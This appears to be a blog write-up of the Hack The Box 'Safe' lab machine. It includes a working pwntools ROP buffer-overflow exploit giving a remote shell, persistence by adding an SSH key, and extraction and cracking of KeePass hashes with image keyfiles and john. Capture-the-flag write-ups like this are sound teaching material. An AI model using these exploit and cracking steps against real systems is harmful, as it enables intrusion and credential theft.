 ```yaml
---
title: Hack The Box Safe Write Up
published: true
---
```

Hey Guys.This is my write up about safe from hack the box.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/safe.png)

It is linux box and rated as easy.It is an oscp like box so let’s get jump in.

As always we start with nmap to scan for open port and services.

# [](#header-3)Enumeration

# [](#header-4)Nmap 
```
root@ch4n:~/Desktop/htb/boxes/safe# nmap -sC -sV 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 20:08 EST
Nmap scan report for 10.10.10.147
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.46 seconds
```
Here is nmap scan and we got http on port 80 and ssh on port 22.

So nothing was interesting there and let’s go to the web page.

# [](#header-4)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page_source.png)

So when I check the web page source,I found that myapp is running on port 1337.

So let’s see port 1337 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/port_1337.png)

In here we got some text.So I downloaded myapp to my machine.And Let’s analyze it.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/checksec_myapp.png)

So in here when we check the file,it is an 64bit binary and NX is enabled but PIE is not..

So let’s disassemble the binary and let’s see how the program works..

I opened it up  in ghidra and check the main function.It is interesting one:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/ghidra.png)

```
undefined8 main(void)

{
  char local_78 [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}
```
When we look up the code in main function you can see that the system excute usr/bin/uptime and it print What do you want to echo me back?

There are also gets and puts.

# [](#header-3)Exploitation 

I opened myapp with gdb and let’s calculate the offset:-)

I created the pattern and then run and put the pattern then program was crashed:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset%201.png)

 we can calculate the offset.It is 120.Then I create the pattern with 112 and added 8 bytes of b at the end.
 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset2.png)

In here we  can see that rbp register contains bbbbbbbb and it shows that This  offset  can control RIP with 112 bytes + 8 bytes:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/rbp_registers.png)

# [](#header-4)Writing Exploit 
I can’t  put the shellcode on the stack because NX is enabled so the stack isn’t executable. 

we can use the system function cause PIE is not enable so the address for system doesn't change

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/grep%20pop.png)

I used ropper -f myapp to find rop gadgets

So we will use this one:-)

```
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
```
# [](#header-4)Exploit
```
from pwn import*

p = remote("10.10.10.147" , 1337)
context(os="linux", arch="amd64")

JUNK  = "A"* 112
sh = "/bin/sh\x00"
system = p64(0x401040)
test = p64(0x401152)
r13 = p64(0x401206)

payload = JUNK + sh + r13 + system + "BBBBBBBB" + "CCCCCCCC" + test

p.recvline()
p.sendline(payload)
p.interactive()
```
After running this code we got the shell as user so this shell is not fully interactive so I added our ssh key to authorized_keys 

Then connect with sssh
```
user@safe:~$ ls -la
total 11284
drwxr-xr-x 3 user user    4096 May 13  2019 .
drwxr-xr-x 3 root root    4096 May 13  2019 ..
lrwxrwxrwx 1 user user       9 May 13  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user     220 May 13  2019 .bash_logout
-rw-r--r-- 1 user user    3526 May 13  2019 .bashrc
-rw-r--r-- 1 user user 1907614 May 13  2019 IMG_0545.JPG
-rw-r--r-- 1 user user 1916770 May 13  2019 IMG_0546.JPG
-rw-r--r-- 1 user user 2529361 May 13  2019 IMG_0547.JPG
-rw-r--r-- 1 user user 2926644 May 13  2019 IMG_0548.JPG
-rw-r--r-- 1 user user 1125421 May 13  2019 IMG_0552.JPG
-rw-r--r-- 1 user user 1085878 May 13  2019 IMG_0553.JPG
-rwxr-xr-x 1 user user   16592 May 13  2019 myapp
-rw-r--r-- 1 user user    2446 May 13  2019 MyPasswords.kdbx
-rw-r--r-- 1 user user     675 May 13  2019 .profile
drwx------ 2 user user    4096 Jan 15 10:32 .ssh
-rw------- 1 user user      33 May 13  2019 user.txt
```
 In user directory,there are images and interesting files called MyPasswords.kdbx 

```
scp -i safe user@10.10.10.147:* .
```
After downloading all files,I made a simple bash line:-)

```
root@ch4n:~/Desktop/htb/boxes/safe# keepass2john MyPasswords.kdbx > hash;for i in *.JPG;do keepass2john -k $i MyPasswords.kdbx; done >> hash
```

```
root@ch4n:~/Desktop/htb/boxes/safe# cat hash
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
I used john to crack the pass

```
root@ch4n:~/Desktop/htb/boxes/safe# john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt hash
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (KeePass [SHA256 AES 32/64])
Remaining 6 password hashes with 6 different salts
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
```
here we grab the pass as bullshit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/kpcli_pass.png)

then login and with su cmd and grab the root flag 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/root.png)

That's it guys.

Enjoy my write up:-)

<script src="https://www.hackthebox.eu/badge/81292"></script>
